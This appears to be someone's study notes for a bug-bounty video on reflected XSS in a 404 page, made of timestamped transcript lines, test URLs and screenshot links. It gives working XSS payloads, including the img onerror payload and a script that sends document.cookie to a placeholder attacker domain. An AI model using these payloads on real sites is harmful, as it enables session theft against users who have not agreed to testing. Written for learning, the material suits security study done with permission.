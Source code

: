 DOM based xss







---

1
00:00:00,180 --> 00:00:04,860
One of my favorite things to do when it comes out here looking for bugs in the Bugs bounty program is

2
00:00:05,040 --> 00:00:06,770
observing there for fore pages.

3
00:00:06,780 --> 00:00:09,000
So we're going to give it a invalid path.

4
00:00:09,580 --> 00:00:10,410
Let's actually give a test123.
![[Screenshot From 2025-03-25 15-21-35.png]]
![[Screenshot From 2025-03-25 15-22-47.png]]
6
00:00:11,940 --> 00:00:16,600
And it looks like it says, hey, we could not find /test123 .

7
00:00:16,650 --> 00:00:20,070
This is what we're giving it right now in the address bar to /test123

8
00:00:20,430 --> 00:00:22,970
And we're going to chase it and see where it shows. in dev tools(elements) 
![[Screenshot From 2025-03-25 15-24-09.png]]
9
00:00:23,010 --> 00:00:25,380
So it looks like we're in the page not found.

10
00:00:25,380 --> 00:00:28,350
We're in a div class, blah, blah.
/test123

12
00:00:30,990 --> 00:00:33,540
This is the only place we could actually find this.

13
00:00:33,870 --> 00:00:35,220
But can we add more characters?

14
00:00:35,370 --> 00:00:38,670
So what happens if I add the sign ( < ) right here. /test123<

15
00:00:39,030 --> 00:00:45,500
in dev tools in elements tab , Right click and HTML and it looks like this one is actually getting encoded and that we can't exploit it
![[Screenshot From 2025-03-25 15-26-36.png]]


17
00:00:45,660 --> 00:00:50,190
So it's a good indication that this one is not invulnerable, but it's good to know that, hey, they reflect

18
00:00:50,190 --> 00:00:52,940
text within the fore page.

19
00:00:52,980 --> 00:00:54,030
There's also more other tricks.

20
00:00:54,030 --> 00:00:56,330
You can, you can try adding a random parameter.

21
00:00:56,340 --> 00:01:00,990
So I'm going to put in a   `/test123?nahamsecparam=test456`

23
00:01:02,490 --> 00:01:05,850
This time I'm going to let this go when I look test456
![[Screenshot From 2025-03-25 15-29-46.png]]
24
00:01:06,330 --> 00:01:11,790
So it looks like whatever we put in the address bar, if it's not found, it's reflected within the

25
00:01:12,060 --> 00:01:12,840
body of this.

26
00:01:12,840 --> 00:01:16,260
So let's add another script tag maybe or something.
`/test123?nahamsecparam=test456<h1>test123`

27
00:01:16,740 --> 00:01:18,630
We just want to see if it's going to render it or not.

28
00:01:19,210 --> 00:01:21,810
And it was like somehow we were able to break the logic.
![[Pasted image 20250326105427.png]]
29
00:01:21,810 --> 00:01:27,510
So it looks like there is some filtering happening, but because of how they are filtering it, it completely

30
00:01:27,510 --> 00:01:30,090
ignored anything that was assigned to this fake parameter.

31
00:01:30,270 --> 00:01:35,340
And they let us actually inject this additional tag in there.

32
00:01:35,340 --> 00:01:39,720
So the next step is to make it into a JavaScript payload or in its payload.

33
00:01:40,030 --> 00:01:40,680
And you can do that.

34
00:01:40,680 --> 00:01:42,090
A number of words can use image.

35
00:01:42,090 --> 00:01:44,460
Can you script whatever one you want to use?

36
00:01:44,460 --> 00:01:52,320
My favorite go to is just an image source X on error equals alert, and that should give us an XSS.
`/test123?nahamsecparam=test456<img src=x onerror=alert()> 
also this is the encoded version 
`/test123?nahamsecparam=test456%3Cimg%20src%3Dx%20onerror%3Dalert()%3E`


37
00:01:52,500 --> 00:01:56,400
If you're not familiar with JavaScript, why this payload works is what's happening here is we're saying,

38
00:01:56,400 --> 00:02:02,220
hey, using JavaScript, I want you to load a image called X if this file doesn't exist.

39
00:02:02,490 --> 00:02:05,810
And I want you to give me an alert because there's an error.

40
00:02:05,820 --> 00:02:10,800
So if there's an error, this follows an exists Pop-Up Alert, which is a function within JavaScript.

41
00:02:11,300 --> 00:02:15,750
We can also do other stuff like document, location, document, cookie and so on.

---
JavaScript payload examples that incorporate additional DOM objects (such as document, location, and document.cookie) to demonstrate potential impacts. These payloads are intended for educational testing in controlled environments only:

1. **Exfiltrate Cookies via an Alert:**
    
    ```html
    <script>alert(document.cookie);</script>
    ```
    
    _This payload retrieves the document’s cookies and displays them in an alert box._
    
2. **Redirect the Browser to an External URL with Cookies:**
    
    ```html
    <script>location.href='https://attacker.example.com/steal?cookie=' + encodeURIComponent(document.cookie);</script>
    ```
    
    _This payload sends the document's cookies as a URL parameter to an external domain and redirects the browser there._
    
3. **Log Document Content:**
    
    ```html
    <script>console.log(document.documentElement.innerHTML);</script>
    ```
    
    _This payload logs the full HTML content of the page to the browser's console (for testing purposes)._
    
4. **Dynamic Content Injection:**
    
    ```html
    <script>
      document.body.innerHTML += "<div style='background:red;color:white;'>Injected Content: " + document.cookie + "</div>";
    </script>
    ```
    
    _This payload appends a new div element to the page's body that displays some text along with the document's cookies._
    

Remember:

- These payloads are for demonstration and testing only.
    
- Use them only in controlled environments and with proper authorization.
    
- Always ensure you have permission before testing or exploiting vulnerabilities.

---
42
00:02:15,750 --> 00:02:16,860
We'll cover these later on.

43
00:02:16,980 --> 00:02:21,210
It also gave us our session, which doesn't matter in this case because I'm not logged in.

44
00:02:21,220 --> 00:02:28,230
I'm not exploiting another user, but it is very handy to show a real impact, especially if you can

45
00:02:28,230 --> 00:02:29,970
actually store cookies from other users.

46
00:02:30,480 --> 00:02:31,380
So that was a good one.

47
00:02:31,670 --> 00:02:33,090
We know there's two exercises here.

48
00:02:33,330 --> 00:02:34,370
We're on fire here.

49
00:02:34,650 --> 00:02:35,510
This is a good place.

50
00:02:35,520 --> 00:02:38,340
When you build momentum back monies, you want to keep pushing.

51
00:02:38,340 --> 00:02:42,870
If you see a vulnerability type occurring more than once or twice, you want to keep digging through

52
00:02:42,870 --> 00:02:43,830
and finding more of those.